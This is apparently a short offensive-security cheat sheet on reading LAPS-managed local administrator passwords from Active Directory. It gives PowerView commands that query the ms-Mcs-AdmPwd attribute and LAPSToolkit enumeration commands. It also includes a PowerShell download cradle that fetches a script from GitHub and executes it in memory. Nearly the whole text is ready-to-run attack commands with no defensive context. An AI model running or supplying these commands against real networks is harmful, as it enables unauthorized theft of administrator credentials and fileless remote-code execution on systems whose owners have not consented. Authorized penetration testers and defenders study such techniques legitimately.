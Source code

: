 # Scripts

## PowerSploit

```
PS C:\> Import-Module .\PowerView.ps1
```

Retrieve password.

```
PS C:\> Get-DomainObject -Identity <IP> -Properties ms-Mcs-AdmPwd
```

## LAPSToolkit

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1')
```

```
PS C:\> Get-LAPSComputers
```

```
PS C:\> Find-LAPSDelegatedGroups
```

```
PS C:\> Find-AdmPwdExtendedRights
```

---
## References

### Github

- [leoloobeek: LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

### Hacktricks

- [Hacktricks: LAPS](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)

### ExploitDB

- [Exploit DB: Abusing LAPS](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf)